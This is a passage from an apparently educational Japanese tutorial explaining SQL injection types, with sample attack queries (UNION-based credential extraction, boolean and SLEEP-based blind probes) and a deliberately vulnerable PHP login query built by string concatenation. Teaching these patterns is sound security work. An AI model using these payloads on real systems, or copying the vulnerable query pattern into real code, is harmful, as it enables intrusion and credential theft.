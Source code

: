 ## SQLインジェクションの種類

### 1. Classic SQLインジェクション（In-band）
最も一般的なタイプで、攻撃結果が直接画面に表示される

#### Union-based SQLインジェクション
```sql
-- 正常なクエリ
SELECT * FROM users WHERE id = 1;

-- 攻撃クエリ
SELECT * FROM users WHERE id = 1 UNION SELECT username, password FROM admin_users;
```

#### Error-based SQLインジェクション
```sql
-- エラーメッセージを利用した攻撃
SELECT * FROM users WHERE id = 1 AND (SELECT COUNT(*) FROM information_schema.tables) > 0;
```

### 2. Blind SQLインジェクション（Inferential）
攻撃結果が直接表示されないが、アプリケーションの動作から情報を推測

#### Boolean-based Blind SQLインジェクション
```sql
-- 条件によってページの表示が変わることを利用
SELECT * FROM users WHERE id = 1 AND 1=1; -- True（正常表示）
SELECT * FROM users WHERE id = 1 AND 1=2; -- False（異なる表示）
```

#### Time-based Blind SQLインジェクション
```sql
-- 応答時間の違いを利用
SELECT * FROM users WHERE id = 1 AND SLEEP(5); -- 5秒の遅延で判断
```

### 3. Out-of-band SQLインジェクション
別の通信チャネル（DNS、HTTPなど）を使用してデータを取得

---

## 攻撃例と実演

### 基本的な攻撃例

#### ログインフォームへの攻撃
```php
// 脆弱なPHPコード例
$username = $_POST['username'];
$password = $_POST['password'];
$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
```
